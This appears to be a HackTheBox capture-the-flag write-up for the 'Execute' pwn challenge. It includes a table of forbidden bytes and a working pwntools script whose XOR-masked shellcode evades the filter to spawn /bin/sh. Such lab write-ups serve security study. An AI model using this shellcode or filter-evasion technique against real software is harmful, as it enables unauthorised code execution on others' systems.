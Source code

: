 # Execute - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/Execute


## Solution

First, I checked binary information:

<p align="center">
<img src="../resources/HackTheBox/Execute1_0.png" alt="Output of file command"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Execute1_1.png" alt="Output of checksec command"/>
</p>

Here I noticed that NX-bit is disabled, which means that the program can execute code located on the stack.
There is a 62-byte buffer created in the code, but only 60 bytes are read. Also, there is a list of *badchars* that I needed to avoid in my shellcode. At the end of `main`, there is code that executes contents of the buffer. `check` checks if any bytes from blacklist are in shellcode.

<p align="center">
<img src="../resources/HackTheBox/Execute2.png" alt="A piece of source code"/>
</p>

The following bytes are not allowed here:

| Byte | Description                                                          |
| ---- | -------------------------------------------------------------------- |
| 0x3b | 59 (execve syscall number)                                           |
| 0x54 | `push rsp`                                                           |
| 0x62 | letter **b**                                                         |
| 0x69 | letter **i**                                                         |
| 0x6e | letter **n**                                                         |
| 0x73 | letter **s**                                                         |
| 0x68 | letter **h**                                                         |
| 0xf6 | some variations of **mul**, **imul**, **div**, **idiv** instructions |
| 0xd2 | some variations of **sub** ; `xor rdx, rdx`                          |
| 0xc0 | `xor rax, rax`                                                       |
| 0x5f | `pop rdi`                                                            |
| 0xc9 | `leave`                                                              |
| 0x66 | letter **f** ; `xor rsi, rsi`                                        |
| 0x6c | letter **l**                                                         |
| 0x61 | letter **a**                                                         |
| 0x67 | letter **g**                                                         |

The table above is the reason why I needed to mask my "/bin/sh" string:

<p align="center">
<img src="../resources/HackTheBox/Execute3.png" alt="/bin/sh xor encoding"/>
</p>

After a long time spent shellcoding, I finally did this:

```python
from pwn import *

context.arch = "amd64"

p = process('./execute')

shellcode = asm('''
	mov rbx, 0x422a316d2c2b206d
	mov r9, 0x4242424242424242
	xor rbx, r9
	push rbx
	mov rdi, rsp
	and rsi, 0
	and rdx, 0
	and rax, 0
	mov al, 0x7a
	xor al, 0x41
	syscall
''')

shell = ''.join(f'{b:02x}' for b in shellcode)
payload = bytes.fromhex(shell)
p.sendline(payload)
p.interactive()
```

Usually, *null bytes* (0x00 as in `and rsi, 0` etc.) and *new line byte*s (0x0a) cannot be used in shellcodes because functions like `gets`, `scanf`, and so on use *null bytes* to terminate the string and will cut the shellcode. But there is a `read` function, that does not cut the string with *null byte*s.
Next, I tested the script on the local copy of binary:

<p align="center">
<img src="../resources/HackTheBox/Execute4.png" alt="Result of the script on local"/>
</p>

It worked locally, so I then tried it on the remote server:

<p align="center">
<img src="../resources/HackTheBox/Execute5.png" alt="Result of the script on remote"/>
</p>
